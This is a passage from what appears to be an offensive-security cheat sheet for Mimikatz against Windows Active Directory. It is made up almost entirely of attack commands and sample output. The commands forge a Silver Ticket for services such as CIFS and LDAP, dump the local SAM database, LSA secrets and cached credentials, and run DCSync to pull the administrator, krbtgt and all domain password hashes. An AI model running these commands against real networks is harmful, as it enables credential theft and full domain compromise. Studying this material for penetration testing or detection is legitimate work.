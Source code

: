 ```cmd
```

#### Silver Ticket Attack
```cmd
# Create Silver Ticket for specific service
mimikatz # kerberos::golden /user:administrator /domain:company.local /sid:S-1-5-21-1234567890-987654321-1122334455 /target:dc.company.local /service:cifs /rc4:service_account_hash /ptt

# Common services for Silver Tickets:
# /service:cifs - File sharing (most common)
# /service:http - Web services
# /service:rpcss - RPC services
# /service:ldap - LDAP/AD services
# /service:mssqlsvc - SQL Server services
```

### 4. LSA Secrets and SAM Extraction

#### Local SAM Database
```cmd
# Dump local SAM database (requires SYSTEM privileges)
mimikatz # lsadump::sam

# Expected output:
Domain : WORKSTATION
SysKey : 1234567890abcdef1234567890abcdef
Local SID : S-1-5-21-1111111111-2222222222-3333333333

SAMKey : fedcba0987654321fedcba0987654321

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a9fdfa038c4b75ebc76dc855dd74f0da

RID  : 000001f5 (501)
User : Guest
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0
```

#### LSA Secrets
```cmd
# Dump LSA secrets
mimikatz # lsadump::secrets

# Cache passwords (if cached logons enabled)
mimikatz # lsadump::cache
```

#### Domain Controller Database (DCSync)
```cmd
# DCSync attack to extract password hashes from DC
mimikatz # lsadump::dcsync /domain:company.local /user:administrator

# Extract specific account
mimikatz # lsadump::dcsync /domain:company.local /user:krbtgt

# Extract all domain hashes (very noisy!)
mimikatz # lsadump::dcsync /domain:company.local /all /csv
```
